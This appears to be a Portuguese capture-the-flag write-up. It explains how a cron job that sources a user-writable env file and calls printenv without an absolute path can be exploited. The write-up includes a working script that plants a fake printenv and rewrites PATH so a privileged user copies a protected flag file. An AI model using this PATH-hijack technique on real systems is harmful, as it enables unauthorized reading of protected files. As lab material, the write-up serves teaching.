

# CTF Semana #5 (Linux Enviroment)

O CTF consiste num script que corre a cada minuto, com o `cron`, no user `flag_reader`. Este user é o unico que consegue ler a flag localizada em `/flags/flag.txt`. O cronjob, corre o seguinte script:

```bash
#!/bin/bash

if [ -f "/home/flag_reader/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
    echo "" > /home/flag_reader/env
fi

printenv
exec /home/flag_reader/reader
```
Este script consiste em primeiro, exportar as variáveis de ambiente que estão no ficheiro `/home/flag_reader/env` que é um link para o `/tmp/env` e depois correr o programa reader, em que o código é:

```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```

Neste caso, podem existir duas vulnerabilidades: usar o LD_PRELOAD para dar override a função `access()`, por exemplo. Ou dar override à variável de ambiente `PATH`, visto que os caminhos para os binários usados no script não são absolutos.

O `PATH` é utilizado por _shells_ para descobrir onde estão os caminhos de binários conhecidos pelo o sistema/utilziado, sem escrever sempre o caminho absoluto/relativo destes. O `PATH` pode ter vários diretórios, separados por `:` mas o diretório à esquerda têm mais precedência sobre o segundo. 

Vamos optar pela a segunda opção, pois é mais fácil de implementar, e que consegue ser explorada pelo o seguinte script: 

```bash
touch /tmp/env
chmod 666 env
mkdir -p /tmp/exploitt
echo '#!/bin/sh
cat /flags/flag.txt > /tmp/exploitt/lmao.txt
' > /tmp/exploitt/printenv
chmod 777 /tmp/exploitt/printenv
touch /tmp/exploitt/lmao.txt
chmod 777 /tmp/exploitt/lmao.txt
echo "PATH=/tmp/exploitt:/command:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" > /tmp/env
```

Este script pode ser explicado pela a seguinte sequencia de passos:

1. Dar setup ao environment, por vezes o ficheiro `env` pode não existe ou estar com variáveis certas
2. Fazer o nosso executável `printenv` que escreva a flag noutro sítio accessível pelo o nosso user, pois este no script não usa o caminho absoluto. 
3. Alterar o `PATH` para incluir o nosso diretório de procura e que tenha mais prioridade (ou seja ser o primeiro a aparecer).

Depois de correr estes comandos, em cada minuto ele vai escrever a flag em `/tmp/exploitt/lmao.txt`.

